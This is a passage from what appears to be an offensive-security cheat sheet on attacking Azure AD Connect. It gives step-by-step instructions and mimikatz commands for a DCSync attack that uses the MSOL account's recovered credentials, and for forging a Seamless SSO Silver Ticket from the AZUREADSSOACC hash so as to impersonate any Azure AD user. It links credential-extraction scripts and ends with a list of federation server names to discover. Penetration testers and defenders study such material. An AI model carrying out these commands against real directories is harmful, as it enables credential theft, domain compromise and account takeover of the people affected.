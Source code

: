 You can perform **DCSync** attack using the MSOL account.

Prerequisite:
  * Compromise a server with Azure AD Connect service
  * Access to ADSyncAdmins or local Administrators groups

Use the script **azuread_decrypt_msol.ps1** from @xpn to recover the decrypted password for the MSOL account:
* `azuread_decrypt_msol.ps1`: AD Connect Sync Credential Extract POC https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545
* `azuread_decrypt_msol_v2.ps1`: Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

Now you can use the retrieved credentials for the MSOL Account to launch a DCSync attack.

## Azure AD Connect - Seamless Single Sign On Silver Ticket

> Anyone who can edit properties of the AZUREADSSOACCS$ account can impersonate any user in Azure AD using Kerberos (if no MFA)

:warning: The password of the AZUREADSSOACC account never changes.

Using [https://autologon.microsoftazuread-sso.com/](https://autologon.microsoftazuread-sso.com/) to convert Kerberos tickets to SAML and JWT for Office 365 & Azure

1. NTLM password hash of the AZUREADSSOACC account, e.g. `f9969e088b2c13d93833d0ce436c76dd`. 
    ```powershell
    mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit
    ```
2. AAD logon name of the user we want to impersonate, e.g. `elrond@contoso.com`. This is typically either his userPrincipalName or mail attribute from the on-prem AD.
3. SID of the user we want to impersonate, e.g. `S-1-5-21-2121516926-2695913149-3163778339-1234`.
4. Create the Silver Ticket and inject it into Kerberos cache:
    ```powershell
    mimikatz.exe "kerberos::golden /user:elrond
    /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234
    /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd
    /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit
    ```
5. Launch Mozilla Firefox
6. Go to about:config and set the `network.negotiate-auth.trusted-uris preference` to value `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
7. Navigate to any web application that is integrated with our AAD domain. Fill in the user name, while leaving the password field empty.


## Azure AD - ADFS Federation Server ~Cloud Kerberos

Discover Federation Servers
* adfs
* auth
* fs
* okta
* ping
* sso
* sts
